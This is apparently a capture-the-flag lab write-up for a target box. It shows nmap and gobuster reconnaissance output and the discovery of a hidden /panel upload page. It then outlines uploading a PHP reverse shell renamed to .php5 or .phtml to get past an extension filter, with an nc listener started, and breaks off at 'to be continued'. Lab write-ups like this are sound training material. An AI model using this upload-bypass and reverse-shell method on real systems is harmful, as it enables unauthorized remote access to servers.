 ## Target info
10.10.182.156

## Mission
Root the target!!!


## Performance
### Recon

    root@ip-10-10-91-11:~# nmap -sV -sC 10.10.182.156
    Starting Nmap 7.80 ( https://nmap.org ) at 2025-04-30 10:52 BST
    Nmap scan report for 10.10.182.156
    Host is up (0.00080s latency).
    Not shown: 998 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
    |   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
    |_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    | http-cookie-flags: 
    |   /: 
    |     PHPSESSID: 
    |_      httponly flag not set
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: HackIT - Home
    MAC Address: 02:67:2F:32:47:6F (Unknown)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 8.02 seconds
    root@ip-10-10-91-11:~# 

Some helpful info: 
- 2 open ports
- Version of Apache: 2.4.29
- ssh

Find directories on the web server using the GoBuster tool and discover the hidden directory

    root@ip-10-10-91-11:~# gobuster dir -u http://10.10.182.156 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,sh,txt,cgo,html,js,css,py
    ===============================================================
    Gobuster v3.6
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://10.10.182.156
    [+] Method:                  GET
    [+] Threads:                 10
    [+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.6
    [+] Extensions:              html,js,css,py,php,sh,txt,cgo
    [+] Timeout:                 10s
    ===============================================================
    Starting gobuster in directory enumeration mode
    ===============================================================
    /.html                (Status: 403) [Size: 278]
    /.php                 (Status: 403) [Size: 278]
    /index.php            (Status: 200) [Size: 616]
    /uploads              (Status: 301) [Size: 316] 
    /css                  (Status: 301) [Size: 312] [--> http://10.10.182.156/css/]
    /js                   (Status: 301) [Size: 311] [--> http://10.10.182.156/js/]
    /panel                (Status: 301) [Size: 314] [--> http://10.10.182.156/panel/]

The hidden directory is /panel/

### Get a shell and find the flag

Reverse shell 🐚 Upload

1. **Generate Reverse Shell**
   - Visit: [https://pentestmonkey.net/tools/web-shells/php-reverse-shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell)
   - Download and extract the php reverse shell .gz
   - Save the shell as `shell.php5` or `shell.phtml` (avoid `.php` as it's blocked).
   - Change the following info in the shell
   
            ip [myip]
            port [9999]

3. **Upload Shell**
   - Go to: `http://10.10.182.156/panel`
   - Upload your renamed shell file.

4. **Start Listener**

        root@ip-10-10-91-11:~# nc -lvnp 9999
        Listening on 0.0.0.0 9999

(to be continued)

